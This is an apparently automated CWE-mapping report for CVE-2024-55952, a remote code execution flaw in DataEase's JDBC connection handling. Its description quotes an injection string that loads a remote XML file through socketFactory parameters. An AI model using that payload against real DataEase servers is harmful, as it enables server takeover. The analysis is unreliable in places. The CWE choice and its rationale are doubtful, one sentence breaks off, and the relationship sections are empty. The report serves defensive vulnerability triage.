

# Analysis Report for CVE-2024-55952

# Vulnerability Analysis Report: CVE-2024-55952

## Description

DataEase is an open source business analytics tool. Authenticated users can remotely execute code through the backend JDBC connection. When constructing the jdbc connection string, the parameters are not filtered. Constructing the host as ip5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http//ip5432/1.xml&a= can trigger the ClassPathXmlApplicationContext construction method. The vulnerability has been fixed in v1.18.27. Users are advised to upgrade. There are no known workarounds for this vulnerability.

## Vulnerability Description Key Phrases

- **Impact:** ['remote code execution', 'remotely execute code']
- **Vector:** constructing the host as ip5432/test/?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http//ip5432/1.xml&a=
- **Attacker:** authenticated users
- **Product:** DataEase
- **Version:** before v1.18.27
- **Component:** backend JDBC connection

## Analysis (with Relationship Data)

# Summary
| CWE ID | CWE Name | Confidence | CWE Abstraction Level | CWE Vulnerability Mapping Label | CWE-Vulnerability Mapping Notes |
|---|---|---|---|---|---|
| CWE-917 | Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection') | 0.9 | Base | Primary | Allowed |
| CWE-74 | Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection') | 0.6 | Class | Secondary | Discouraged |
| CWE-89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | 0.5 | Base | Secondary | Allowed |

## Evidence and Confidence

*   **Confidence Score:** 0.8
*   **Evidence Strength:** HIGH

## Relationship Analysis
The primary CWE selected is CWE-917, which is a Base level CWE and a child of CWE-74. CWE-74 is a Class level CWE, representing a more general category of injection vulnerabilities. CWE-89 (SQL Injection) and CWE-78 (OS Command Injection) are siblings of CWE-917, as they are all children of CWE-74. The relationship analysis shows that CWE-917 is the most specific and appropriate CWE for this vulnerability, as it directly addresses the use of expression language injection. The evidence from the CVE description supports this choice, as it mentions the use of `ClassPathXmlApplicationContext` which is related to expression language statements.



## Vulnerability Chain
The vulnerability chain begins with the **improper neutralization** of special elements in the JDBC connection string (CWE-917). This leads to the ability to inject malicious parameters, which then allows for remote code execution. The chain can be summarized as follows:

1.  **Improper Input Validation (CWE-917)**: The application fails to validate user-supplied parameters in the JDBC connection string.
2.  **Expression Language Injection**: Attackers inject malicious parameters into the JDBC URL using expression language.
3.  **Remote Code Execution**: The injected code is executed on the server, leading to complete system compromise.

## Summary of Analysis
The initial assessment, based on the **Vulnerability Description** and **CVE Reference Links Content Summary**, strongly suggests CWE-917 as the primary weakness. The vulnerability involves the **improper neutralization** of special elements in an expression language statement, specifically within the JDBC connection string. The attacker can inject malicious parameters, leading to remote code execution.

The **CVE Reference Links Content Summary** explicitly states that the root cause is due to the insecure construction of JDBC connection strings where the application "does not properly sanitize or filter user-supplied parameters when creating the JDBC URL" and this allows injection of "malicious parameters like `socketFactory` and `socketFactoryArg` into the JDBC URL."

The graph relationships influenced the decision to select CWE-917, as it is the most specific CWE that addresses the use of expression language injection. While CWE-74 (Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection')) is a parent CWE, it is too broad and does not capture the specific nature of the vulnerability. CWE-89 (SQL Injection) and CWE-78 (OS Command Injection) were also considered but deemed less relevant as the vulnerability does not directly involve SQL or OS commands.

The selected CWEs are at the optimal level of specificity, as they accurately represent the weakness and provide valuable information for mitigation and prevention.

Relevant CWE Information:

# Enhanced Context (25 CWEs)

## CWE-917: Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection')
**Abstraction Level**: Base
**Similarity Score**: 0.79
**Source**: dense

**Description**:
The product constructs all or part of an expression language (EL) statement in a framework such as a Java Server Page (JSP) using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended EL statement before it is executed.

**Mapping Guidance**:
- Usage: Allowed
- Rationale: This CWE entry is at the Base level of abstraction, which is a preferred level of abstraction for mapping to the root causes of vulnerabilities.

*Technical Explanation for CWE-917:*

The vulnerability in DataEase allows authenticated users to execute arbitrary code by injecting malicious parameters into the JDBC connection string. This is achieved by **improperly neutralizing** special elements in the expression language statement used to construct the JDBC URL. Specifically, the `socketFactory` and `socketFactoryArg` parameters can be manipulated to trigger the construction method of `ClassPathXmlApplicationContext`, leading to remote code execution.

*Security Implications and Potential Impact:*

The security implication of this vulnerability is severe, as it allows an attacker to execute arbitrary code on the server hosting the DataEase application. This could lead to complete system compromise, data theft, or denial of service.

*Parent-Child Relationships and Chain Patterns:*

CWE-917 is a child of CWE-74, which represents a more general category of injection vulnerabilities. The chain pattern involves **improper neutralization** (CWE-917) leading to remote code execution.

*MITRE Mapping Guidance Influence:*

The MITRE mapping guidance for CWE-917 states that it is at the Base level of abstraction, which is a preferred level for mapping root causes. The usage is allowed, and the description aligns perfectly with the vulnerability's characteristics.

*Technical Explanation for CWE-74:*

CWE-74 represents the **improper neutralization** of special elements in output used by a downstream component. In the context of this vulnerability, the JDBC connection string is the output that is being sent to the downstream component (the database). The attacker is able to inject malicious parameters into this string because the application does not properly neutralize special elements.

*Security Implications and Potential Impact:*

The security implications of CWE-74 are that an attacker can manipulate the downstream component by injecting malicious code or commands. In this case, the attacker is able to execute arbitrary code on the server hosting the DataEase application.

*Parent-Child Relationships and Chain Patterns:*

CWE-74 is a class-level CWE and has many child CWEs, including CWE-78 (OS Command Injection), CWE-89 (SQL Injection), and CWE-917 (Expression Language Injection). The chain pattern involves **improper neutralization** (CWE-74) leading to remote code execution.

*MITRE Mapping Guidance Influence:*

The MITRE mapping guidance for CWE-74 states that it is discouraged because it is high-level and often misused when lower-level weaknesses are more appropriate. However, it is still relevant in this case as a secondary CWE because it captures the general nature of the injection vulnerability.

*Technical Explanation for CWE-89:*

CWE-89 represents the **improper neutralization** of special elements used in an SQL command. While the vulnerability does not directly involve SQL commands, the JDBC connection string is used to connect to a database, and the attacker is able to inject malicious parameters into this string.

*Security Implications and Potential Impact:*

The security implications of CWE-89 are that an attacker can manipulate the SQL commands that are executed on the database. In this case, the attacker is able to execute arbitrary code on the server hosting the DataEase application.

*Parent-Child Relationships and Chain Patterns:*

CWE-89 is a child of CWE-74. The chain pattern involves **improper neutralization** (CWE-89) potentially leading to SQL injection and further compromise.

*MITRE Mapping Guidance Influence:*

The MITRE mapping guidance for CWE-89 states that it is at the Base level of abstraction, which is a preferred level for mapping root causes. The usage is allowed, but it is less relevant than CWE-917 as the vulnerability does not directly involve SQL commands.

*CWEs Considered But Not Used:*

*   CWE-78 (Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')): This CWE was considered but not used because the vulnerability does not directly involve OS commands.
*   CWE-1336 (Improper Neutralization of Special Elements Used in a Template Engine): This CWE was considered but not used because the vulnerability does not involve the use of


## CWE Relationship Analysis

Current CWEs represent these abstraction levels: .


### Vulnerability Chain Analysis

**Chain starting from CWE-89:**
- 89 (Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')) - ROOT


**Chain starting from CWE-917:**
- 917 (Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection')) - ROOT


### CWE Relationship Diagram

```mermaid
graph TD
    classDef primary fill:#f96,stroke:#333,stroke-width:2px
    classDef secondary fill:#69f,stroke:#333
    classDef tertiary fill:#9e9,stroke:#333
```


*Report generated on 2025-07-13 23:25:54*
